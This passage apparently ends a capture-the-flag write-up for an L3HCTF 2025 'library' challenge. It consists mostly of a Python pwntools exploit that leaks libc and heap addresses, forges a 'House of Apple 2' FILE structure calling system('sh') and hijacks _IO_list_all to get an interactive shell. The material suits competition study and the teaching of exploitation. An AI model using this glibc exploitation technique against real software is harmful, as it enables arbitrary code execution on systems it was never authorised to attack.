 ```python
    leak = study().decode().encode('UTF-16')
    libc_base = u64(leak[0xda:0xe2]) - 122 - 0x2a150 # __libc_start_call_main
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    array = u64(leak[0x82:0x8a])
    list_base = array - 0x7fff0
    info(GOLD_TEXT(f'Guessing "read book" is offset from {list_base:#x}'))
    offset_from_io = (libc.symbols['_IO_list_all'] - list_base) // 8
    info(f'Offset from _IO_list_all is {offset_from_io}')

    heap = list_base + 0xe00
    offset_from_base = (heap - list_base) // 8
    # House of Apple 2 payload
    file = flat({
        0:      b'  sh;\0',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0x88:   heap - 0x10, # lock
        0xa0:   heap,
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   heap,
        0xe8:   0, # align up 16
    }, filler=b'\0')
    for idx, off in enumerate(range(0, len(file), 16)):
        read(offset_from_base + idx * 2, file[off:off + 16])

    info(f'Hijacking _IO_list_all...')
    read(offset_from_io, flat(heap, 0))
    leave()

    t.clean(1)
    t.interactive()
    t.close()
```

{% note default fa-flag %}
<img src="/assets/l3hctf2025/library_flag.png" width="80%">
{% endnote %}

## 参考

1. [LIEF](https://lief.re/)
